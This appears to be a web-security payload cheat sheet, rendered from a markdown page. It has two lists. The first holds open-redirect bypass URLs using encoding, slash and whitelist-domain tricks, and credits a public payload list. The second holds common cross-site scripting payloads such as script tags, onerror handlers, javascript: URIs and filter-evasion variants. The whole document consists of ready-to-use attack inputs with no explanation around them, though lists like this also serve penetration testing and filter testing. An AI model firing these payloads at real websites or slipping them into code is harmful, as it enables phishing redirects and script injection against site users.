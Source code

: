 ### Open web redirect common payloads
```xml
/%09/example.com
/%2f%2fexample.com
/%2f%2f%2fbing.com%2f%3fwww.omise.co
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%5cexample.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
/.example.com
//%09/example.com
//%5cexample.com
///%09/example.com
///%5cexample.com
////%09/example.com
////%5cexample.com
/////example.com
/////example.com/
////\;@example.com
////example.com/
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
///example.com/
//google.com/%2f..
//www.whitelisteddomain.tld@google.com/%2f..
///google.com/%2f..
///www.whitelisteddomain.tld@google.com/%2f..
////google.com/%2f..
////www.whitelisteddomain.tld@google.com/%2f..
https://google.com/%2f..
https://www.whitelisteddomain.tld@google.com/%2f..
/https://google.com/%2f..
/https://www.whitelisteddomain.tld@google.com/%2f..
//www.google.com/%2f%2e%2e
//www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
```
#### [source](https://github.com/payloadbox/open-redirect-payload-list)
-------------------------------------------------------------------------------------------------------------

# XSS
### Common payloads
```xml
<img src=x>
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<embed src="javascript:alert(1)">
<img src="javascript:alert(1)">
<image src="javascript:alert(1)">
<script src="javascript:alert(1)">
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
```